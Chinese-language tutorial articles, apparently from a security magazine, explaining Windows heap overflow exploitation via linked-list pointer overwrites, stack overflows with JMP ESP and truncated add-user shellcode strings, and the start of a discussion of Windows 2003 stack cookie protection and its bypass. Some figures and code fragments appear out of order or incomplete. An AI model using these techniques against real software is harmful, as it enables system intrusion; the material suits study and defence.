

其编码、通用性等方面都没有涉及，我们还是集中精力，看看更关键的地方吧。

#### 跳转到 ShellCode

现在，我们知道了有问题程序溢出点的精确位置，意思就是可以把它覆盖成任意值。其次，我们也有了 ShellCode，一个可以提供 DOS 窗口的代码。那接下来，就应该想办法使程序跳转到 ShellCode 中，执行我们的代码，从而完成想要的功能。

首先看看堆溢出后为何会产生异常对话框，程序动态分配 200 字节的 `buf1` 之后，其系统内部的堆结构如图8所示。



解释一下，先是 8 字节的 `buf1` 管理结构，然后是系统返回给我们的能实际操作的 200 字节空间，接着后面是 8 字节的下一空闲堆管理结构，最后是两个双链表指针，各 4 个字节，共 8 个字节。

当我们用超长字符串覆盖 `buf1` 的时候，其溢出后的结构如图9所示。



特别地，当用其他字符为 A、第 212 字节为 B 覆盖时，其结构如图10所示。`200+8+4=212`，这就是我们计算得到溢出点为 212 字节这个奇怪数字的原因。我们把结构最后的双链表指针覆盖了，那系统要使用它们的时候，当然会不正确，出错——这就是会出现报错对话框的原因。

再次，看看系统是如何使用那两个双链表指针的。当程序分配 `buf2` 的时候，就要使用那两个双链表指针了，且 EAX 为前一指针的值，ECX 为后一指针的值，并作如下操作：

```asm
mov [ecx], eax
mov [eax+4], ecx
```

该操作的目的是在新分配内存时，改变链表的指向，这里不仔细分析其功能，只要知道这两个操作即可。具体来讲，就是我们在最后一次覆盖时，其结构和指针的值，如图11所示。



在我们最后一次覆盖数据的情况下，其操作 `mov [ecx], eax` 就等于 `mov [BBBB], AAAA`。B 的十六进制是 `0x42`，即 `mov [0x42424242], AAAA`，就是把 AAAA 写入到 `0x42424242` 地址的内存中，而地址 `0x42424242` 一般是不能写的，所以就会报 `0x42424242` 不能写的错误。

程序出错就终止了。如果还要进行下一操作 `mov [eax+4], ecx`，在这种情况下，就等于 `mov [AAAA+4], BBBB = mov [0x41414145], BBBB`，即把 BBBB 写入到 `0x41414145` 的地址中，这通常也是会出错的。

可以看出，我们用值随意覆盖的时候，会出现错误。如果我们精心地构造覆盖数据，就有可能跳转到我们想要的地方——ShellCode 的地址去。

最后，构造溢出数据，使在堆溢出时完成跳转。我们知道，在分配 `buf2` 的时候，会有两个操作 `mov [ecx], eax` 和 `mov [eax+04], ecx`，而 EAX 和 ECX 分别是前后双链表指针的值。当我们用超长的数据填充 `buf1` 的时候，可以覆盖到双链表指针的值，也就是说可以自己构造 EAX 和 ECX。那如何构造 EAX 和 ECX 可以使程序跳转到 ShellCode 呢？

分析到这里，思路应该是很清晰了，我们把 EAX 的值构造成 ShellCode 的地址比如是 `0x11111111`，把 ECX 的值构造成某个函数返回点的地址，比如是 `0x22222222`，这样 `mov [ecx], eax` 就是 `mov [0x22222222], 0x11111111`，就会用 ShellCode 的地址覆盖函数返回点的值。这就如同堆栈溢出一样，当函数返回的时候，就会把保存的返回点给 EIP 继续执行，但保存的返回点已经被我们改成了 ShellCode 的地址，这样就会执行我们的 ShellCode 了。

一般函数返回点的地址不容易确定，而且每次运行程序的顺序不同，地址也不同。所以大家通常都把 ECX 的值覆盖成默认异常处理的地址，在 SP2 上是 `0x77ebf44c`，在 SP3 上是 `0x77ebf44c`，这样出现异常的时候，就会执行我们的 ShellCode 了，Cool！

那 ShellCode 的地址呢？在这里 ShellCode 是保存在 `mybuf` 中的，所以我们直接把 `mybuf` 的地址读出来填入即可。不过它不具有通用性，这就是 OYXin 文章提出的改进的地方，但我们还是看最笨的方法吧。我们构造的字符串结构如图12所示。

| 208字节=空间+管理结构 | 4字节 EAX | 4字节 ECX |
|---|---|---|
| Nop Nop Nop Nop Nop ShellCode | shellcode地址 | 异常处理地址 |

图12

如此得到 `mybuf` 后，运行程序（Vul6.c），就会弹出我们的 DOS 对话框了！堆溢出利用成功完成，如图13所示。



图13

#### 定位的改进方法

这个时候再回过头来看看 OYXin 在他的文章中提出的改进办法，就比较好理解了。刚才 ShellCode 的地址是不固定的，OYXin 提出了改进 ShellCode 的定位办法，他发现其实下一个堆管理结构的起始点，在 Windows 2000 下是 `ESI+0x4c`，所以把 EAX 覆盖成 `call [esi+0x4c]` 在内存中的地址就可以更固定地定位了。Cool！顺便说说，在 Windows XP 下是 `EDI+0x74`。

### Windows 堆栈溢出全面剖析

文/曹军 dang8cai27


本人前面写的多篇文章都是堆栈溢出类的具体漏洞分析和 ShellCode 编写，而有朋友希望我能写点入门级的文章。今天就和大家一起，来全面解析 Windows 下堆栈溢出的具体细节及利用过程。过程虽然简单，但自己又走了一遍，才发现里面的确有一些值得注意的地方。废话少说，下面直接切入正题！

#### 基础知识

- 函数调用时堆栈的变化

用高级语言编写程序时，函数调用是很常见的事情，但大家却很少观察函数调用的汇编代码是如何实现的。事实上实现过程很简单：

1）父函数将子函数的实参按照从右至左顺序压入堆栈；  
2）CPU 将父函数中函数调用指令 `Call xxxx` 的下一条指令地址 EIP 压入堆栈；  
3）父函数通过 `Push Ebp` 将基址指针 EBP 值压入堆栈，并通过 `Mov Ebp, Esp` 将当前堆栈指针 ESP 值传给 EBP；  
4）通过 `Sub Esp, m`（m 是字节数）指令可以为存放函数中的局部变量开辟内存。函数在执行的时候如果需要访问实参或局部变量，都可以通过 EBP 指针来索引完成。

```c
int fun(char *szIn, int nTest)
{
    char szBuf[8];
    printf("%d\n", nTest);
    strcpy(szBuf, szIn);
    return 0;
}

int main()
{
    char sz_In[] = "1234567890abcdefghijklmn";
    fun(sz_In, 888);
    return 0;
}
```

编译、执行，弹出异常对话框如图1所示。



图1

- 函数调用约定对函数调用及返回时堆栈变化的影响

Windows 系统下常见的函数调用约定有两种：C/C++ 的函数调用方式 `__cdecl` 和 `__stdcall` 调用方式。

1）在 VC、.NET 等开发环境中，编写命令行程序时的 `main` 或者 `_tmain` 函数，以及大家自己定义的很多函数，默认都是采用 `__cdecl` 调用方式。  
2）通过 MFC 编写图形界面程序的时候，其主函数的声明为 `extern "C" int WINAPI tWinMain(参数)`，该函数的调用约定是 `__stdcall`。`WINAPI`、`PASCAL` 等都是 `__stdcall` 的宏定义，是一个意思。此外，大家平时调用的 API 函数，绝大多数是采用 `__stdcall` 的调用方式。  
3）`__cdecl` 调用方式的函数，父函数在调用子函数的时候，先将子函数的实参按照从右至左顺序压入堆栈，子函数返回后，父函数通过 `Add Esp, n`（`n=函数实参个数*4`）指令来恢复堆栈。  
4）`__stdcall` 调用约定函数，子函数调用时实参入栈顺序也是从右至左，但堆栈恢复是子函数返回时自己通过 `Ret n` 指令来完成的。

如果以前大家没有注意到这些基础知识，可能理解起来不很清晰。不过没关系，下面我们再结合具体例子仔细说明，之所以要在这里提出，是因为这些知识对我们溢出漏洞的利用有较为明显的影响。

显然是发生了堆栈溢出，这是从直观的角度进行了解。大家花 1 分钟时间看一下程序代码，然后我们来仔细看看这个溢出的发生细节。

好了，我们继续，在 Debug 模式下，按 F10 进入单步调试状态，再按 Alt+8，进入汇编模式，如图2所示。



图2

#### 实例解析

大家看看下面这个具有溢出漏洞的示例代码，调试环境是 Windows 2000 SP4 + VC6.0。

```c
#include "windows.h"
#include "stdio.h"
#include "string.h"

int fun(char *szIn, int nTest)
```

高级语言第15行代码 `char sz_In[] = "1234567890abcdefghijklmn";`。前面是 Main 函数的启动代码，其实大家从这里就可以看出在调用主函数时堆栈的变化。一直按 F10，直到第16行高级语言代码 `fun(sz_In, 888)` 处停下来，这里是我们要重点看的地方，如图3所示。



图3

大家现在可以看到，Main 函数前面讲的父函数通过 `Call @ILT+0(fun)` 指令调用 `fun` 函数。在该指令之前还有两个 `Push` 指令操作，这两条 `Push` 指令就是将 `fun` 函数的两个实参按照从右往左的顺序压入堆栈。继续按 F10，直到 Call 指令停下，用 F11 跟到 `fun` 函数里……如图4所示。

下面我们来谈谈堆栈溢出漏洞的利用。堆栈溢出漏洞的利用方式有两种：JMP ESP 和覆盖 SEH 结构。既然本节讲的是基础内容，这里重点谈 JMP ESP。在示例中，如果把覆盖 EIP 指针的 4 个字节改为 JMP ESP 指令地址，再在后面填充 ShellCode，函数返回后就会跳转到 ShellCode 执行……如图6所示。



图4

```c
char sz_In[] =
"1234567890ab...";
"\xEB\x1B...\xFF\xFF";
// AddUser:x Pass:x
```

图6

进入 `fun` 函数的第一条指令就是 `Push Ebp`，即保存地址指针 EBP……继续单步执行完 `Call strcpy` 后停下。这里说明 `strcpy` 的调用约定是 `__cdecl`，因此调用完成后，`fun` 函数作为其父函数要通过 `Add Esp, 8` 来恢复堆栈。此时可见返回地址 EIP 的值已被覆盖……如图5所示。

至于 ShellCode 的编写技术，这里不多展开。需要注意的是调用约定差异：若将 `fun` 函数改为 `__stdcall`，函数返回时由自身通过 `Ret 8` 恢复堆栈，因此当 CPU 跳转到 JMP ESP 时，ESP 位置与 `__cdecl` 情况不同，ShellCode 的偏移也需相应调整……如图7所示。



图5

```c
char sz_In[] =
"1234567890ab...";
"\xEB\x1B...\x90...\xFF\xFF";
// AddUser:x Pass:x
```

图7

函数返回之后将跳转到该地址来执行指令，而该地址上的指令无效，因此会发生读错误。到这一步，我们验证了前面的基础知识。

这个例子到这里结束。实际中的漏洞可能更复杂，也更多涉及远程溢出漏洞。不过应侧重于原理理解与方法掌握，基础知识才是关键。

## 经典 WIN32 堆栈溢出保护+突破技术



文/图　曹军/dangguai27

不知道大家是否留意，不论是微软，还是其他应用软件开发者，在他们发出的漏洞公告中，相当一部分都是溢出类漏洞。在这些漏洞中，由于堆栈溢出漏洞的利用存在通用性，所以很多蠕虫病毒都是基于这类漏洞。另一方面，随着针对堆栈溢出攻击的防范技术逐渐增强，有3大问题浮出水面：如何挖掘出更多的未公布漏洞，如何有效地对付个人防火墙或 IDS，如何有效地对付日益普及的各种堆栈溢出保护技术。第一个问题，需要先掌握扎实的基础知识以及丰富的漏洞调试经验；第二个问题突破个人防火墙，在前面几期中有一些文章已经讨论过，大家可以参考。而对于堆栈溢出保护技术，大家可能还不是很熟悉，而我也正好刚接触这个问题，因此接下来，我将从原理和实战两方面和大家一起来分析一些比较经典的堆栈保护技术，并探究相应的突破技术。可能有的方面讲得不够清晰或有所偏差，还希望大家给予纠正。如不加说明，下面的堆栈溢出都简称为溢出。

首先从代码编写说起吧，这是有效防止溢出发生的第一个环节。对于软件开发而言，如果能在开发期间尽量编写正确的代码，溢出漏洞出现的概率会大为降低。编写正确的代码是一件非常有意义但耗时的工作，特别像编写 C/C++ 语言那种容易出错的程序，这是由于追求性能而忽视正确性的传统引起的。为此，人们开发了一些工具和技术来帮助经验不足的程序员编写安全正确的程序。简单的工具像 AJCGrep，可用它查找源代码中易产生溢出的一些函数，如 `strcpy`、`sprintf` 等。例如，工程里有个 CPP 文件中调用了 `sprintf` 函数，如图1所示。

```c
sprintf(sbuf, "GET /%s HTTP/1.0\r\n\r\n", buf);
```

图1

通过 AJCGrep 在工程目录中查找 `sprintf` 函数后的结果如图2、图3所示。



图2



图3

查找出这些函数以后，就可以依次检查它们的参数是否合理，进而减小溢出发生的概率。然而，由于编写代码的问题，这种简单的检测方式只能在一定程度上避免溢出的产生。为此，人们又开发了一些高级的查错工具，如 faultinjection 等。这些工具通过人为随机地产生一些缓冲区溢出来寻找代码的安全漏洞。另外，还有一些静态分析工具也用于检测缓冲区溢出的存在。虽然这些工具可以帮助程序员开发更安全的程序，但是由于 C/C++ 语言的特点，因此它们不可能找出所有的溢出漏洞。

既然堆栈溢出不可完全避免，聪明的人们于是开发了一些溢出保护技术来进一步防范。溢出保护技术的中心不是防止溢出的发生，而是在……溢出发生之后，如何有效地阻止 ShellCode 的执行？那么，现有的溢出保护技术又是怎样的呢？让我们一一看来。

## Windows 2003 堆栈保护技术 + 突破

##### 1. 保护技术分析

MS 在 Windows 2003 系统和 Visual Studio .NET 编译器中采用了新的堆栈保护机制，通过安全 Cookie 机制与可控的 SEH 处理函数指针来执行堆栈溢出保护，并导致 ShellCode 无法执行。而在 2003 上，VC6 及以下版本编译生成的具有溢出漏洞的程序还是可以成功利用的。

先谈谈 Windows 2003 的安全 Cookie 机制，这是 David Litchfield 发现并提出的。在一个函数被调用时，它会在堆栈中返回地址前分配空间，然后插入一个安全 Cookie，并在当前函数所在的数据段保存该 Cookie 的副本。如果发生堆栈溢出，返回地址被覆盖，那么安全 Cookie 也会被覆盖。在函数返回之前，系统会将堆栈中的 Cookie 值与其数据段中的副本进行比较，如果二者值不等，它就认为堆栈溢出已经发生。

